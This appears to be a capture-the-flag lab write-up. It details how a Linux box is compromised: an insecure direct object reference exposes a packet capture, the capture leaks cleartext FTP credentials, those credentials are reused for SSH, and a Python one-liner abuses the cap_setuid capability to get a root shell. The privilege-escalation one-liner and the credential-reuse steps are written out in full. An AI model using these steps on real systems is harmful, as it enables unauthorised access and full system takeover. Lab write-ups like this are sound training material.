






## Scenario

Access via: `10.129.216.179`

## Enumeration

### Port Scanning

A full TCP port scan was run first to make sure nothing was missed outside nmap's default top-1000 ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.216.179 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 22:24 +0200
Nmap scan report for 10.129.216.179
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

Three open ports came back: FTP, SSH and HTTP. A second scan targeted just those three ports to pull version and default script output.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.216.179 -p21,22,80 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 22:25 +0200
Nmap scan report for 10.129.216.179
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds
```

This showed vsFTPd 3.0.3 on FTP, OpenSSH 8.2p1 on SSH, and a Gunicorn-served "Security Dashboard" web application on port 80.

### FTP — Anonymous Login

Anonymous access to FTP was tried first and failed.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ftp 10.129.216.179 21
Connected to 10.129.216.179.
220 (vsFTPd 3.0.3)
Name (10.129.216.179:—REDACTED—): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```

Anonymous login wasn't permitted, so attention moved to the web application instead.

### Web Application

Browsing to the site landed directly on a dashboard, already showing a logged-in session for a user called Nathan, with no login prompt.



The page source held nothing useful, so the Wappalyzer browser extension was checked to see what the stack was built on.

 

Clicking around the sidebar surfaced an IP Config section, a Network Status section, and a "Security Snapshot (5 Second PCAP + Analysis)" page. Opening the Security Snapshot page and clicking Download produced a `1.pcap` file.


Opening the downloaded file in Wireshark showed it was empty.


Going back to the Security Snapshot page and reloading it changed the page's URL to `/data/2`, which suggested the numeric value in the URL was an index the client controlled—an IDOR angle.

```
http://10.129.216.179/data/2
```

This one showed actual packet counts, so it was downloaded as well.



Opening that capture in Wireshark showed only a handful of TCP handshake and teardown packets (SYN/ACK and FIN/ACK), nothing with any payload of interest.



Since the index seemed to be user-controlled, `/data/0` was tried next.

```
http://10.129.216.179/data/0
```

This returned a much larger capture.



Downloading and opening `0.pcap` in Wireshark showed a full browsing session, including several HTTP GET requests and responses.



Scrolling further through the same capture turned up an FTP control-channel exchange with a cleartext username and password.


The credentials captured were:

`nathan:Buck3tH4TF0RM3!`

## FTP Access and User Flag

Those credentials were used to log into FTP. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ftp 10.129.216.179 21
Connected to 10.129.216.179.
220 (vsFTPd 3.0.3)
Name (10.129.216.179:—REDACTED—): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48985|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Nov 23 20:22 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||6090|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***********************************************************************************************************************************************************************************************|    33       38.68 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.89 KiB/s)
ftp> !cat user.txt
—REDACTED—
```

### User Flag

**Answer:** `—REDACTED—`

## Privilege Escalation

Tried it against SSH as well to see if Nathan had reused his passwords, and it worked.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh nathan@10.129.216.179
—SNIP—


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

### Checking sudo Access

```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
```

Nathan had no sudo rights, so privilege escalation had to come from somewhere else.

### SUID Binaries

```shell
nathan@cap:~$ find / -perm -04000 -type f -ls 2>/dev/null
      789     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
      834     44 -rwsr-xr-x   1 root     root        44784 May 28  2020 /usr/bin/newgrp
      888     32 -rwsr-xr-x   1 root     root        31032 Aug 16  2019 /usr/bin/pkexec
      788     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
      686     88 -rwsr-xr-x   1 root     root        88464 May 28  2020 /usr/bin/gpasswd
      867     68 -rwsr-xr-x   1 root     root        68208 May 28  2020 /usr/bin/passwd
      557     84 -rwsr-xr-x   1 root     root        85064 May 28  2020 /usr/bin/chfn
     2865    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
      489     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
      563     52 -rwsr-xr-x   1 root     root        53040 May 28  2020 /usr/bin/chsh
     3422     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
      668     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
     1588     24 -rwsr-xr-x   1 root     root        22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     2279    128 -rwsr-xr-x   1 root     root       130152 Feb  2  2021 /usr/lib/snapd/snap-confine
     1435    464 -rwsr-xr-x   1 root     root       473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
     1366     52 -rwsr-xr--   1 root     messagebus    51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1373     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      128    109 -rwsr-xr-x   1 root     root         111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
      128    109 -rwsr-xr-x   1 root     root         111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
       56     43 -rwsr-xr-x   1 root     root          43088 Sep 16  2020 /snap/core18/2066/bin/mount
       65     63 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /snap/core18/2066/bin/ping
       81     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /snap/core18/2066/bin/su
       99     27 -rwsr-xr-x   1 root     root          26696 Sep 16  2020 /snap/core18/2066/bin/umount
     1708     75 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
     1710     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
     1763     75 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
     1827     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
     1840     59 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
     1931    146 -rwsr-xr-x   1 root     root         149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
     2018     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2328    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
       56     43 -rwsr-xr-x   1 root     root               43088 Sep 16  2020 /snap/core18/2074/bin/mount
       65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/2074/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/2074/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Sep 16  2020 /snap/core18/2074/bin/umount
     1710     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
     1712     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
     1765     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
     1829     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
     1842     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
     1933    146 -rwsr-xr-x   1 root     root              149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
     2020     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2330    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
```

These were just standard SUID binaries.

### Capabilities

```shell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` stood out, holding the `cap_setuid` capability. GTFOBins lists a Python payload for exactly this capability, using `os.setuid(0)` followed by executing a shell.



```shell
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# whoami
root
#
```

**Breakdown:**

- `python3.8` invokes the specific interpreter binary that was found holding `cap_setuid`
- `-c` tells Python to run the following string as a program rather than reading it from a file
- `import os` brings in the `os` module, which exposes `setuid` and `execl`
- `os.setuid(0)` changes the running process's user ID to 0 (root); this succeeds here specifically because the binary carries the `cap_setuid` capability
- `os.execl("/bin/sh", "sh")` replaces the current process image with `/bin/sh`, passing `"sh"` as its `argv[0]`; since the process is now running as uid 0, the resulting shell is a root shell

This produced a root shell, confirmed with `whoami`.

## Root Flag

```shell
# cd /root  	
# ls
root.txt  snap
# cat root.txt
—REDACTED—
```

**Answer:** `—REDACTED—`